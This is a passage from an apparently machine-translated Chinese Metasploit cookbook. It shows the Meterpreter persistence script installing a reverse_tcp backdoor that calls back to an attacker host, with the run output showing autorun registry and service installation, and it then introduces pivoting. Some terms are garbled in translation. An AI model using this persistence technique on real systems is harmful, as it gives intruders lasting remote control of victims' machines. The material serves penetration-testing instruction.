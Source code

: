 正如您所见，与 Metsvc 相比，它有一些额外的选项。让我们执行脚本并根据需要传递不同的参数。

```
meterpreter > run persistence -A -S -U -i 60 -p 4321 -r 192.168.56.101
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/DARKLORD-PC_20111227.0307/DARKLORD-PC_20111227.0307.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4321
[*] Persistent agent script is 610795 bytes long
[+] Persistent Script written to C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[*] Starting connection handler at port 4321 for windows/meterpreter/reverse_tcp
[+] Multi/Handler started!
[*] Executing script C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[+] Agent executed with PID 5712
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[*] Installing as service..
[*] Creating service cpvPbOfXj 
```

## 它是如何工作的。。。

请注意随脚本传递的不同参数。 `-A`参数自动启动攻击机器上的侦听器。 `-S`操作员将后门设置为在每次 Windows 启动时加载。 `-U`操作员在用户每次登录系统时执行后门。 `-i`操作员设置后门尝试连接回代理处理程序的间隔。 `-p`为目标机器的端口号， `-r`为目标机器的 IP 地址。脚本执行的输出还包含一些有用的信息。该脚本已创建一个用于清理的资源文件，以便您可以在使用后删除后门。脚本已在目标计算机上的 `temp`文件夹中创建了一个 vbs 文件。它还创建了注册表项，以便在 Windows 每次启动时自动加载后门。

我们提供了一个 60 秒的间隔，让后门连接回代理处理程序。成功执行脚本后，您将看到目标机器上每隔 60 秒自动打开一个 MeterMeter 会话。

这个快速演示说明了如何与目标机器建立持久连接。您可以使用这两个脚本尝试不同的场景，并分析其工作情况。在下一个食谱中，我们将关注另一个有趣的概念，称为旋转。

# 与 MeterMeter 一起旋转

到目前为止，我们已经介绍了大多数主要的 MeterMeter 命令和脚本。您一定已经注意到，在开发后阶段，MeterMeter 的功能是多么强大。在本食谱中，我们将讨论一个最酷、也是我最喜欢的概念，叫做旋转。让我们首先了解旋转的含义，为什么需要旋转，最后了解 Metasploit 如何对旋转有用。

## 准备好了吗

在开始使用配方之前，让我们先详细了解旋转。数据透视是指渗透测试人员使用的方法，该方法使用受害系统攻击同一网络上的其他系统。这是一种多层攻击，在这种攻击中，我们甚至可以访问仅可供本地内部使用的网络区域，如内部网。考虑下面图表中所示的场景。

![Getting ready](img/7423_06_02.jpg)
